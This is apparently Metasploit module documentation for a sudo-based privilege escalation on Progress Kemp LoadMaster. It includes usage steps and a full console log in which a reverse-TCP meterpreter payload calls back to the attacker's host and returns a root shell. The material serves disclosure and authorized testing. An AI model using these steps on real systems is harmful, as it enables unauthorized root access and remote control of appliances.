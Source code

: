 ## Vulnerable Application
Progress Kemp LoadMaster up to at least 7.2.59.2.22338.  The vendor is aware of this "feature," but
has chosen not to change the behavior.  It was originally paired with CVE-2024-1212, but as this
privilege escalation was not patched when CVE-2024-1212 was, we split it into its own module.
This exploit/feature allows the default `bal` user to run several binaries with the `sudo` prefix
that will elevate without prompting for a password.  As the configuration is based on filename and
the `bal` user has write permissions to these files, the `bal` user can simply write over the existing
binary with one of their choosing, then prefix it with `sudo` and launch the binary with `root`
privileges.
This module defaults to overwrite `/bin/loadkeys` with `/bin/bash`, though other binaries would work,
too.

For more details on the vulnerability:  
https://rhinosecuritylabs.com/research/cve-2024-1212unauthenticated-command-injection-in-progress-kemp-loadmaster/

https://support.kemptechnologies.com/hc/en-us/articles/23878931058445-LoadMaster-Security-Vulnerability-CVE-2024-1212

A trial VM which the exploit should work against out of the box can be downloaded from:
https://sso.kemptechnologies.com/register/kemp/vlm

The AWS marketplace also has free trials which can be used. These require the "session management" to be enabled in order for the exploit to work. Since by default the admin WUI is behind basic auth.
https://aws.amazon.com/marketplace/pp/prodview-kgh3dsfk7qcnw

## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `bal` user
1. Do: `use exploits/linux/local/progress_kemp_loadmaster_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### LoadMaster 7.2.59.0.22007

```msf
msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_kemp_loadmaster_sudo_privesc_2024):

Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
BINARY_RENAME  /tmp/tEYych      yes       The temporary name to use to store the TARGET_BINARY.
SESSION        1                yes       The session to run this module on
TARGET_BINARY  /bin/loadkeys    yes       The path for a binary file that has permission to auto-elevate.
TEMP_PAYLOAD   /tmp/DKFuC       yes       The temporary name to use to store the payload.


Payload options (linux/x64/meterpreter_reverse_tcp):

Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
LHOST  10.5.135.201     yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > sessions

Active sessions
===============

Id  Name  Type                   Information         Connection
  --  ----  ----                   -----------         ----------
1         meterpreter x64/linux  bal @ 10.5.134.141  10.5.135.201:4444 -> 10.5.134.141:28848 (10.5.134.141)

msf6 exploit(linux/local/progress_kemp_loadmaster_sudo_privesc_2024) > run

[*] Started reverse TCP handler on 10.5.135.201:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 3 indicators this is a KEMP product
[!] The service is running, but could not be validated.
[*] Delete /tmp/tEYych
[*] Saving payload as /tmp/DKFuC
[*] Moving /bin/loadkeys to /tmp/tEYych
[*] Moving /bin/bash to /bin/loadkeys
[*] Launching payload
[+] Deleted /tmp/DKFuC
[*] Meterpreter session 4 opened (10.5.135.201:4444 -> 10.5.134.141:28854) at 2024-04-17 13:37:14 -0500

meterpreter > sysinfo
Computer     : 10.5.134.141
OS           : SuSE 7.2 (Linux 4.14.137)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > 
```